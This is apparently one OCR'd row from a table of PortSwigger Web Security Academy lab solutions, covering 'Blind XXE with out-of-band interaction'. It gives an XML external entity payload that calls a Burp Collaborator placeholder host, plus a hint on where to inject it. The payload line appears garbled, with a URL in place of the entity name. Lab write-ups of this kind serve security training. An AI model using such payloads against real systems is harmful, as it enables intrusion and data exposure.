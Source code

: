 |69    |Blind XXE with out-of-band interaction                                                                                   |<!DOCTYPE stockCheck [ <!ENTITY https://portswigger.net/web-security/xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |"Check stock" feature that parses XML input but does not display the result.  Replace productId number with a reference to the external entity: &xxe;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |Practitioner, XXE                           |